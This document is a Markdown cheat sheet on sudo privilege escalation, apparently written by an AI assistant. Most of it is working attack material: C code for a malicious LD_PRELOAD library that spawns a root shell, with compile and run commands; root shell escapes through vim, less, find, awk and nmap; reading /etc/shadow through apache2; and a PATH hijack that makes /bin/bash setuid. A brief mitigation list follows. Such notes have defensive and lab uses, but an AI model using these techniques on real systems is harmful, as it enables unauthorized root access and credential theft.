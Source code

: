 # **Advanced Sudo Privilege Escalation Techniques**  
*(Comprehensive Notes on Exploiting Sudo Misconfigurations)*  

---

## **1. Understanding Sudo Permissions**
### **Key Commands**  
| Command | Description |
|---------|-------------|
| `sudo -l` | List allowed (and forbidden) commands for the current user |
| `sudo -u <user> <command>` | Run a command as a different user |
| `sudo -k` | Invalidate cached credentials (force re-authentication) |

### **Current User’s Sudo Access (No Password)**
The user can run the following commands as **root** without a password:  
```bash
/usr/sbin/iftop      # Network traffic monitoring
/usr/bin/find        # File search utility
/usr/bin/nano        # Text editor
/usr/bin/vim         # Advanced text editor (shell escape possible)
/usr/bin/man         # Manual pages (can execute shell commands)
/usr/bin/awk         # Text processing (can run system commands)
/usr/bin/less        # File viewer (can execute shell commands)
/usr/bin/ftp         # File transfer protocol client
/usr/bin/nmap        # Network scanner (can read files with `--script`)
/usr/sbin/apache2    # Web server (can read files with `-f`)
/bin/more            # Basic file viewer (can execute shell commands)
```

### **Dangerous Environment Variables**
```bash
env_reset  
env_keep+=LD_PRELOAD    # Allows preloading shared libraries (Dangerous!)  
env_keep+=LD_LIBRARY_PATH # Allows custom library path manipulation  
```
→ These can be abused for **privilege escalation** via **code injection**.

---

## **2. Exploiting Sudo Misconfigurations**
### **A. LD_PRELOAD Hijacking (Dynamic Library Injection)**
1. **Create a malicious shared library (`hijack.c`)**  
   ```c
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>

   void _init() {
       unsetenv("LD_PRELOAD");  // Avoid infinite loops
       system("/bin/bash -p");  // Spawn a root shell (-p preserves privileges)
   }
   ```
2. **Compile it as a shared object (.so)**
   ```bash
   gcc -fPIC -shared -nostartfiles -o hijack.so hijack.c
   ```
3. **Execute with sudo and LD_PRELOAD**
   ```bash
   sudo LD_PRELOAD=/path/to/hijack.so vim
   ```
   → **Grants a root shell** if `LD_PRELOAD` is allowed.

---

### **B. Shell Escaping from Restricted Binaries**
#### **1. Vim / Nano / Less / More / Man**
- **Vim/Nano**:  
  ```bash
  sudo vim  
  :!sh  # Spawns a shell
  ```
- **Less/More/Man**:  
  ```bash
  sudo less /etc/shadow  
  !/bin/sh  # Escapes to shell
  ```

#### **2. Find Command Abuse**
```bash
sudo find / -exec /bin/sh \; -quit
```
→ Runs `/bin/sh` as root.

#### **3. Awk Command Execution**
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
→ Executes `/bin/sh` as root.

#### **4. Nmap Privilege Escalation**
```bash
sudo nmap --interactive
nmap> !sh
```
→ Escalates to root shell if `nmap` is allowed.

#### **5. Apache2 File Disclosure**
```bash
sudo apache2 -f /etc/shadow
```
→ Displays the first line of `/etc/shadow` (useful for hash extraction).

---

### **C. Exploiting PATH Hijacking**
If a script is run with sudo and does not use absolute paths:  
1. **Find writable directories in PATH**  
   ```bash
   echo $PATH  
   ```
2. **Create a malicious binary with the same name**  
   ```bash
   echo 'chmod +s /bin/bash' > /tmp/fake_command  
   chmod +x /tmp/fake_command  
   export PATH=/tmp:$PATH  
   ```
3. **Run the sudo command**  
   → If it calls an unsafe binary, it executes our malicious version.

---

## **3. Mitigation & Best Practices**
### **How to Secure Sudo Configurations**
1. **Avoid `NOPASSWD`** – Require passwords for all sudo commands.  
2. **Use Full Paths** – Prevent PATH hijacking.  
3. **Restrict Dangerous Binaries** – Remove `vim`, `find`, `awk`, `nmap`, etc.  
4. **Disable `LD_PRELOAD` & `LD_LIBRARY_PATH`**  
   ```bash
   Defaults env_reset  
   Defaults !env_keep  
   ```
5. **Use `sudo -l` Auditing** – Regularly check for weak configurations.  

---

## **4. References**
- **[GTFOBins](https://gtfobins.github.io/)** – Exploitable binaries for privilege escalation.  
- **[Sudo Secure Coding](https://www.sudo.ws/)** – Official security guidelines.  

---

### **Final Notes**
- **Always check `sudo -l` after gaining initial access.**  
- **If `LD_PRELOAD` is allowed, root access is trivial.**  
- **Restricted shells can often be escaped via text editors/viewers.**  

🚀 **Next Steps**: Test these techniques in a controlled lab environment!  

---
Would you like additional details on any specific method? 😊
